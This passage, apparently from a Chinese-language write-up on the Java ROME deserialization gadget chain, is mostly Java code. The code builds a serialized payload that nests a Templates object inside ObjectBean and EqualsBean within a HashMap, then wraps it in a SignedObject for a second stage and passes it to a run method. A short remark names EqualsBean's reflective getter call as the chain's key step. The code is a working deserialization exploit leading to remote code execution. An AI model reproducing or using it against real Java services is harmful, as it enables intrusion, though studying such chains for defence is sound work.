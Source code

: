 ```java
        HashMap hashMap1 = getpayload(Templates.class, obj);

        KeyPairGenerator kpg = KeyPairGenerator.getInstance(&#34;DSA&#34;);
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject(hashMap1, kp.getPrivate(), Signature.getInstance(&#34;DSA&#34;));

        HashMap hashMap2 = getpayload(SignedObject.class, signedObject);
        
        run(hashMap2, &#34;debug&#34;, &#34;object&#34;);
    }
    public static HashMap getpayload(Class clazz, Object obj) throws Exception {
        ObjectBean objectBean = new ObjectBean(ObjectBean.class, new ObjectBean(String.class, &#34;rand&#34;));
        HashMap hashMap = new HashMap();
        hashMap.put(objectBean, &#34;rand&#34;);
        ObjectBean expObjectBean = new ObjectBean(clazz, obj);
        setFieldValue(objectBean, &#34;_equalsBean&#34;, new EqualsBean(ObjectBean.class, expObjectBean));
        return hashMap;
    }
} 
```

##### EqualsBean

rome 链的关键转折点在于`pReadMethod.invoke(_obj,NO_PARAMS)`，`EqualsBean`也存在这个关键代码

![image-20220810093914403](./Zets/index/image-20220810093914403.png)
